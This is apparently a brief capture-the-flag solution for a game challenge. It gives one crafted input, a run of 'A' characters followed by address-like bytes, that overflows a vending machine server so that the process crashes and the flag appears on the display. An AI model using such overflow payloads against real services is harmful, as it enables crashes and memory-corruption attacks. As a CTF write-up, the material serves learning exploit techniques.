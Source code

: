 Send the server the following input: `"A".repeat(0x17) + "\xbd\x14\x40"`.  It'll crash the process (resulting in a hang that requires the player to exit the Purchase Snack task to continue playing), but the vending machine's display will show the flag.

